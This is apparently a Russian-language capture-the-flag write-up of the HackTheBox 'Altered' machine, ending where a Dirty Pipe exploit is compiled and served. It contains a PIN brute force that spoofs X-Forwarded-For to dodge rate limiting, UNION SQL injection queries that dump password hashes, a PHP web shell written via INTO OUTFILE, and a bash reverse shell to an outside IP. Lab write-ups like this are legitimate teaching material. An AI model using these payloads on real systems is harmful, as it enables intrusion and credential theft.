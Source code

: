 # Altered (Linux, Hard)

![](<../../../../.gitbook/assets/image (4).png>)

### Содержание:

После сканирования портов, мы обнаружим только два. На 80-ом порте будет форма авторизации и резета пароля с пинкодом. Просто перебирать четырехзначный пинкод не получится, так как после нескольких неправильных попыток, система блокирует запросы от пользователя. Laravel настроен так, что он использует Nginx, как прокси, следовательно, можно перезаписать HTTP-заголовки и брутить пинкод с нескольких айпи через X-Forwarded-For. После того, как мы получим доступ к учетке админа, можно будет проэксплуатировать SQLi, при этом тоже обойдя фильтры с помощью подмены типа переменной(Type Juggling). С помощью этой же SQLi получим непривилегированную оболочку и проэксплутируем вулну dirty pipe для уязвимого ядра линукса, чтобы рутироваться.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.159 -oN nmap
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: UHC March Finals
|_Requested resource was http://10.10.11.159/login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



![](<../../../../.gitbook/assets/image (7).png>)

### Угадываем имя пользователя:

Через данную форму можно угадывать имена пользователей, например, я ввел - "**admin"**:

![](<../../../../.gitbook/assets/image (9).png>)

Также можно восстановить пароль, но нужно знать пинкод, следовательно, можно его пробрутить:

![](<../../../../.gitbook/assets/image (13).png>)

### Обходим Rate Limit и брутим пинкод:

Так как, если начать прямо брутить пинкод через **wfuzz**, то сервер начинает блокировать запросы (где-то после 60-ого запроса), т.е. тут стоит **Rate Limit**. На сайте используется **Laravel**, это можно определить по хранящимся кукам. А **Laravel** настроен так, что он использует **Nginx**, как прокси, следовательно, можно перезаписать **HTTP-заголовки** и брутить пинкод с нескольких айпи через **X-Forwarded-For**. Поэтому делаем два словаря, один для заголовка **X-Forwarded-For**:&#x20;

```
for i in {1..100}; do (for i in {1..254}; do echo $i; done); done >> wordlist1.txt
```

А другой для пинкода:

```
(for i in {0000..9999}; do echo $i; done) >> wordlist2.txt
```

Так как мы будем использовать цикл с этими двумя словарями, следовательно, нужно, чтобы в **wordlist1.txt** было больше слов, чем в **wordlist2.txt**:

```
wfuzz -H 'Cookie: XSRF-TOKEN=eyJpdiI6InlZZUE4bUkvODdaL2s5UHVHYVYzenc9PSIsInZhbHVlIjoiekdoaENqeUVrVVZwOTF3OVUwUURodTNTUUlPbVJzWkNIcFl5Q3QzSElGSnc5eE9IZzBaMno1OEd1eUFCdXE0QWg0RzV3ZFZQRi9QTVBkM0hNUGprdDBaREtOTUcyNS91bTlpQ1BZTTlLS05pMU15MU92aE93bGtua1c2SGwzV3oiLCJtYWMiOiI5ZGFjMmIyZTQ4OTc0ZTEzNzg2YzZjMWI5NmNmNGJjNGFiZDdhODg0ZWRiNjRjODllMGVhNTBjNGQxMGExMGRmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFsSDFSODIrQ3lZZzRQKzFHclI4eWc9PSIsInZhbHVlIjoiSkxPVDIrRUU4RmxxRXlaLzZ1alh5cC9oRnllTFpHOGpRYmQyMTUvWkVvYmJycEVSSWUwOFMxNmxINHlENU02Rk5GT2RPU0MvNmZBdGorSXJOUG1XSXlJNk4wd2dZVUpIN0lSd3JFRk1lSURpZElkdmE4VCtkcWkxVG1yT0s0SFIiLCJtYWMiOiJmZjY0MzZiY2I2NzcxM2NlYzExM2ZhNDY5OTg5MTY1YWQ5OWMxNzgxMjBjMzBmZDAwODE4ZjM1OWE1YzBmZTUyIiwidGFnIjoiIn0%3D' -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.11.159/api/resettoken -d 'name=admin&pin=FUZZ' -z range,1000-9999 -m zip -w wordlist1.txt  -H 'X-Forwarded-For: 127.0.0.FUZ2Z' --hh 5644
```

**Wfuzz** используем со специальным флагом **-m zip**, чтобы указать два словаря на два параметра фаззинга.

![](../../../../.gitbook/assets/image.png)

Пинкод - 5118, введя его и изменив пароль админа, мы можем войти в панель:

![](<../../../../.gitbook/assets/image (15).png>)

При клике на ссылку **view** у нас образуется **GET-запрос** с двумя параметрами **id** и **secret**:

![](<../../../../.gitbook/assets/image (3).png>)

### Обходим фильтры и эксплуатируем SQLi:

При изменении параметра **id** вылетает ошибка, сообщающая о предотвращении пользовательского ввода. Так, как определенный параметр **id** должен соответствовать определенному параметру **secret**(который является **md5** хэшем, **32** символа), то мы не можем попытаться эксплуатировать **SQLi**, следовательно, можно попробовать преобразовать тело запроса в **json** и попробовать эксплуатировать вулну, которая заключается в преобразовании типов(**Type Juggling**). Я ее подробно разобрал в райтапе по [Ransom](https://tragernout.gitbook.io/hackandgtfo/hackthebox-writeups/ransom-linux-medium), а также нашел подробную статью по этому типу вулны [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf):

```http
GET /api/getprofile HTTP/1.1
Host: 10.10.11.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/json
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://10.10.11.159/
Cookie: XSRF-TOKEN=eyJpdiI6IlJsUnBqS0RrNG1xNWhxNFloWGpsZXc9PSIsInZhbHVlIjoiU01DY2YvOENtNHpHM1QzK2Z6c0l4OGpRSkNLeDQyVzk5emVHNU55TEIvSXRkZzRERXphNXBKSUxOaTFmSjNwNXNkaXJWMnhQMTVQclVLRVd0ckZDcFlTYXJ6OC9sdDNDZkxpSW91SEl6WlNnWnJGYTZVZXhkSlR4VjEzaGlUbnUiLCJtYWMiOiJlODZkYWFlMTYyNGFmMDRiYmUwZDgyNTM1YjZhZjc0ZWQyMTUyNzg1YmIwZGJmZGQ5MjgwMzhmNmE1NTAyNjQwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjdLWnAwUFZhb1RCRG90T1NZOGJocmc9PSIsInZhbHVlIjoiQjQ4R0Zkcm1BOHJ6ZlBnbFc5a1ptbVcrNXRPWUJ2MnlXbUE2ZzAwbDZKMDc2WDI1MlQwaldTVkdIYUNMZStLNFAxSGptOGhGNFhaM0piclFjTVB6WDgrYzErOEtyYlBTb0h0OUhsU2I2a1oycUhHWHd2bzA5OUpQQVBpZVR1ZXYiLCJtYWMiOiIwNDM0ZTM3YmYzODU3ZTVhODYzMWU1MmE0MmFmNzk3MDdlOWZiNWMyMzBmYTc3MTZlMDI3ZTRlNTAwMmQ5OWQwIiwidGFnIjoiIn0%3D
Content-Length: 60

{
"id":"2",
"secret":"c5169f4e0e83fd309f4d72a354021c60"
}
```

![](<../../../../.gitbook/assets/image (11).png>)

![](<../../../../.gitbook/assets/image (1).png>)

Далее я просто раскрутил **UNION SQLi**([о ней я тоже сделал статью](https://tragernout.gitbook.io/hackandgtfo/owasp-top-10/sql-union-injection)):

* Подбираем количество столбцов в **БД**, которая сейчас используется с помощью **null**:

![](<../../../../.gitbook/assets/image (16).png>)

* Смотрим какие есть базы данных:

![](<../../../../.gitbook/assets/image (2).png>)

```
{
"id":"1337 union select null,null,group_concat(schema_name) from information_schema.schemata -- -",
"secret": true
}
```

* Вытаскиваем таблицы из базы данных **uhc**:

```
1337 union select null,null,group_concat(table_name) from information_schema.tables where table_schema='uhc' -- -
```

```
failed_jobs,migrations,password_resets,personal_access_tokens,tasks,users
```

* Вытаскиваем столбцы из таблицы **users** базы данных **uhc**:

```
1337 union select null,null,group_concat(column_name) from information_schema.columns where table_schema='uhc' and table_name='users' -- -
```

```
bio,country,created_at,email,email_verified_at,id,name,password,remember_token,updated_at
```

* Достаем значения, которые нам ничего не дают :joy: :

```
1337 union select null,null,group_concat('\n', email, ':', name, ':', password) from uhc.users -- -
```

```
big0us@htb.local:big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2,
celesian@htb.local:celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,
luska@htb.local:luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,
tinyb0y@htb.local:tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,
o-tafe@htb.local:o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,
watchdog@htb.local:watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,
mydonut@htb.local:mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,
bee@htb.local:bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm,
admin@htb.local:admin:$2y$10$uYmwbmWFdhy6mFXFPqgU3uDJDg1pJFJfWStkcaJY7LLJ69G17GdHC
```

### Создаем Reverse Shell через SQLi:

Мы можем читать файлы, следовательно, можем найти корневую папку сервера:

![](<../../../../.gitbook/assets/image (12).png>)

Теперь попробуем создать свой файл **html**, записать в него что-то и проверить, имеем ли мы права создавать и редактировать файлы:

![](<../../../../.gitbook/assets/image (6).png>)

![](<../../../../.gitbook/assets/image (18).png>)

Все работает, переходим к созданию реверс шелла:

```
{
"id":"1337 union select null,null,'<?php system($_REQUEST[\"cmd\"]) ?>' into outfile '/srv/altered/public/tragernout.php' -- -",
"secret": true
}
```

![](<../../../../.gitbook/assets/image (8).png>)

Но веб шелл нас не устраивает, поэтому перехватываем запрос и меняем его метод, а потом в параметр **cmd** вставляем наш пэйлоад в **URL-энкоде**:

![](<../../../../.gitbook/assets/image (5).png>)

```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.44/9898+0>%261'
```

![](<../../../../.gitbook/assets/image (10).png>)

### Рутируемся через Dirty Pipe(CVE-2022-0847):

```
$ uname -a
```

```
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Мы можем погуглить версию ядра линукс 5.16.0 и найти **CVE-2022-0847 (Dirty Pipe):**

{% embed url="https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits" %}

Если вкратце, то вулна **Dirty Pipe** позволяет перезаписывать любые файлы, но только после первого символа в них. Получается, нам нужно искать **SUID-файлы**, которые мы перезапишем и рутируемся:

Скачиваем второй эксплоит к себе на машину, компилируем и поднимаем пайтоновский веб-сервер:

```
$ gcc exploit-2.c -o exploit
$ python3 -m http.server
```

![](<../../../../.gitbook/assets/image (19).png>)
